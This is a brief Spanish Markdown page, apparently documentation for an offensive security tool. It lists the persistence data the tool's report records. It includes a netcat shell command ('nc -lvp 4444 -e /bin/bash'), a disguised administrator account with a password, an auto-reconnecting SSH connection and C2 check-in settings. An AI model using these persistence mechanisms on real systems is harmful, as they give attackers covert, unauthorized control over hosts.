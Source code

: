 ## Información de Persistencias

El reporte incluye información detallada sobre todas las persistencias establecidas:

### Usuarios Creados
```json
{
  "host": "192.168.1.100",
  "username": "svc_192_168_1_100",
  "password": "P@ssw0rd_100!",
  "groups": ["administrators", "remote_desktop_users"],
  "description": "System Maintenance Service"
}
```

### Backdoors
```json
{
  "host": "192.168.1.100",
  "type": "netcat",
  "port": 4444,
  "method": "reverse_shell",
  "payload": "nc -lvp 4444 -e /bin/bash"
}
```

### Conexiones Remotas
```json
{
  "host": "192.168.1.100",
  "type": "ssh",
  "port": 22,
  "username": "svc_192_168_1_100",
  "password": "P@ssw0rd_100!",
  "persistent": true,
  "auto_reconnect": true
}
```

### Apuntadores C2
```json
{
  "host": "192.168.1.100",
  "c2_server": "192.168.1.200",
  "c2_port": 8080,
  "checkin_interval": 300,
  "method": "http_post",
  "encrypted": true
}
```
